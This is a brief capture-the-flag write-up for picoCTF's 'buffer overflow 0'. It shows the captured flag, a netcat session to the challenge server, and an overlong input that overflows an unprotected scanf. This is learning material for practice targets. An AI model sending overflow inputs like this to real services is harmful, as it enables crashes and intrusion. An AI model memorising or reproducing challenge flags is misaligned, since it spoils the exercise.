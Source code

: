 # buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

How you approached the challenge:

- step 1
Looking at the name and hints it made obvious that the answer was something related to overloading the input.

So I just held down a key and entered 2 strings cause the .c file had the input as %s %s
```bash
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53208 
Input: wqeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee 
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

What you learned through solving this challenge:

1. You can overload the input of a unprotected scanf to print other items in the stack


